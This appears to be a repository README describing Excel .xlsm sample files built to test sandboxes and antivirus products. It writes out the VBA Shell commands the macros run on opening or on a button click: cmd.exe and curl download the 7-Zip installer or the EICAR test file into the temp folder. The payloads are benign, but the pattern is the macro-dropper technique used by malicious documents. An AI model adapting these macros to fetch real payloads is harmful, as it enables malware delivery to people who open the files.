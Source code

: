 # xlsmcurltest

sample27062022CURL.xlsm - CURL command running by macros embeded in xlsm file. Used for download 7zip2200.exe in temp directory Embedded command: Call Shell("cmd.exe /S /K curl.exe -vk https://www.7-zip.org/a/7z2200.exe -o %TEMP%\7z2200.exe", vbNormalFocus). Macros run after opening file and enabling macros.

sample19102022CURLeicar_download.xlsm - CURL command running by macros embeded in xlsm file. Used for download 7zip2200.exe in temp directory Embedded command: Call Shell("cmd.exe /S /K curl.exe -vk https://secure.eicar.org/eicar.com -o %TEMP%\eicar.com", vbNormalFocus). Macros run after opening file and enabling macros. 

click_download_macros.xlsm - CURL command running by macros embeded in xlsm file. Used for download 7zip2200.exe in temp directory Embedded command: Call Shell("cmd.exe /S /K curl.exe -vk https://www.7-zip.org/a/7z2200.exe -o %TEMP%\7z2200.exe", vbNormalFocus). Macros run after clicking button and enabling macros.

Sandbox use case:
Download files and check your sandbox logs

Antivirus use cases:
Download files and scan it by antivirus
Download files and run file 



This is simple CURL macros embeded in xlsm file. Command: start "MyProgram" "cmd.exe" /S /K curl.exe -vk https://www.7-zip.org/a/7z2200.exe -o %TEMP%\7z2200.exe
